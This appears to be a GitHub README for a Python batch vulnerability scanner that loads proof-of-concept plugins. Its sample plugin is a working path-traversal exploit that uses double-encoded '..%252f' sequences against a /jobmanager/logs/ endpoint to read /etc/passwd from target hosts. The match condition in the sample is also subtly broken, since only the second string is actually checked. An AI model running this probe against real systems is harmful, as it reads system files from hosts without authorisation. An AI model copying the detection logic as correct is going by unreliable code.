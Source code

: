 # simple_poc_auto_scanner
A simple python script: automatically import poc scripts for batch scanning of vulnerable hosts
All you have to do is add your poc script to the plugins folder
Your poc script should contain the following key functions, the sample format is as follows, to be called by the main scanning script:
```
def check_vuln(ip,port):
	http_proto = http_proto_judge(ip,port)#获取协议头
	url = "{proto}{ip}:{port}/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd".format(proto=http_proto,ip=ip,port=port)
	try:
		res = requests.get(url=url,headers=headers,timeout=5)
		if "root:x:0:0:" and "daemon:x:1:1:daemon" in res.text:#判断是否存在passwd文件内容
			#print("Vuln exists")
			return True
		else:
			#print("No vuln")
			return False
	except Exception as msg:
		#print(msg)
		return False
```
